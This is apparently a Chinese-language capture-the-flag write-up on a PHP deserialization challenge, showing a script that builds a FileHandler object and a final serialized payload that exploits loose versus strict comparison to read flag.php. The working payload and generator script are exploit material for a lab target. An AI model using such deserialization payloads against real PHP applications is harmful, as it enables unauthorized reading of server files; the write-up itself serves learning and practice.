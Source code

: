 首先就是观察一下代码结构，发现是给str这个口传参数进去，然后进行反序列化。

然后考虑构造，首先第一个要求就是要通过`is_valid`函数，所以我们需要构造一个合法的可见字符串，也就是说op，filename，content都要是可见字符，另外也不能出现特殊字符。

观察process和write和read函数后发现，我们使用write函数并没有用，因为我们需要读取flag.php中的代码，所以只需要执行read就行。

而执行read的条件是`op=2`

所以初始化的时候，op设置成2，filename是flag.php，content随便写一个。

使用下面的脚本生成第一版

```php
<?php
class FileHandler {
    protected $op=2;
    protected $filename='flag.php';
    protected $content='AAA';
}

$res = new FileHandler;
var_dump(serialize($res));
?>
```

输入uri后，发现不太对，返回的结果是`Bad Hacker!`，说明我们的构造不对。

再看了一遍代码，发现有两个地方用到了op的比较

分别是
```sql
$this->op == "2"

if($this->op === "2")
        $this->op = "1";
```
我们需要再第一个判断的时候进入read环节，而在第二个判断的时候不要进入write环节。所以我们使用数字二

和上一个例题一样，这一题也需要对类型进行更改。不然由于%00这样的字符不可见所以过不了`is_valid()`函数。所以将protected改成public，或者手动修改变量名称和长度也可以。

得到最后的payload如下

```
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";s:3:"AAA";}"
```

![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/CS__Dev__Backend__assets__PHP.assets__83c9510802e2eb9530436cae79d0c66.webp)


![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/web_pic/CS__Dev__Backend__assets__PHP.assets__6ffadb51805af7763ee6b9e5cc1eb81.webp)

这个flag跑了两个实例貌似是不一样的，所以贴flag貌似没什么用。


